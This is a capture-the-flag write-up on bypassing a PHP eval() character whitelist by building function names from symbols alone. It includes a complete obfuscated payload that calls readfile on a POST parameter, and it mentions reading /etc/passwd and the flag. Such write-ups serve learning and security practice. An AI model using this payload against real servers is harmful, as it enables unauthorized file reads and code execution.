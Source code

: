 JAILOO WARMUP

# Writeup JAILOO from fword ctf

We have the source of a php file that allow us execute commands via php eval(), the problem is there is a regex that only allow a few characters:
```
if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);
```
This basically means that we need to create a payload without using letters or numbers, just with ``&"+=()[]``
So lets go I have created a script that convert strings to that characters using the idea of getting an A and a from a php object like Array. We can get the A from 0 index and a from index 3.
With that I started with SYSTEM:
![f6d453f66866661cfea748c00e914fb6.png](../../_resources/a515719da83441db93350317ca1a10bf.png)
But apparently it was not enabled y tried with asset, but it was disabled too.

So I end up using readfile(). As the server requires only 2 arguments I reused the submit variable to send the file I want to read. This means we need a payload like ``readfile($_POST[submit])``.
So lets create the payload I started with readfile:
![75dd983c25fd8db3c5d73810646ce083.png](../../_resources/9627fd6e073e4d7cb6ecd9ba7c6bc5ab.png)
now _POST :
![19eb173e5e67667992ef9881d061e3b9.png](../../_resources/4d06f3ebf6db44acbde7ac121d854f2e.png)

And finally submit:
![f9c66e3add3af3f9ce8bc6a4321daa4e.png](../../_resources/e54ea12e4c52488890b4b569621437bb.png)

Adding alltogether we get our finnal pyaload:
```
$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$____.=$__;$__=$_;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$______=$____;$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_______=$____;$_____="_";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_=$$_____;$______($_[$_______]);
```
We just need to go and try the files we want to read using the POST parameter submit

trying with /etc/passwd:

![14897da3858336a65ed21ef670b184b6.png](../../_resources/4f7d730bae1b450bbb4e5d05c5d66737.png)
Getting the flag:

![6e1118665f791a0eb24657b6f446faba.png](../../_resources/e46d23c3bc7a4d24aded3789fe054d95.png)
